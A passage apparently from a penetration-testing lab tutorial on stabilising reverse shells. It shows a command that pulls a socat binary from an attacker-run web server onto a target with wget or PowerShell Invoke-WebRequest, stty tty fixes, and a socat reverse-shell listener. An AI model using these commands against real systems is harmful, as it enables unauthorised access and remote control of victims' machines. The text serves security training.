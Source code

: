 Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (sudo python3 -m http.server 80), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (wget <LOCAL-IP>/socat -O /tmp/socat).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:

Next, in your reverse/bind shell, type in:

stty rows <number>

and

stty cols <number>

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

# Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

socat TCP-L:<port> -

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to nc -lvnp <port>.
